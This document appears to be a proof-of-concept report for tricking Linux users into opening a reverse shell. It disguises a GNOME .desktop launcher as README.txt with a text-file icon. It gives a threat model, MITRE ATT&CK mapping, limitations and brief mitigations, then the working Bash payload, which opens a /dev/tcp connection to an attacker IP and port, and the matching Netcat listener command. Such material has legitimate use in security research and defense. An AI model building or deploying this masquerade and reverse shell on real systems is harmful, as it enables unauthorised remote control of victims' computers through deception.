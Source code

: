 # Technical Report: Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)  
- The user allows execution of `.desktop` files from their Desktop  
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked  
- Easily readable and discoverable if inspected manually  

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Harden user awareness through training against disguised file traps  
- Enable AppArmor/SELinux rules that restrict arbitrary shell access  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
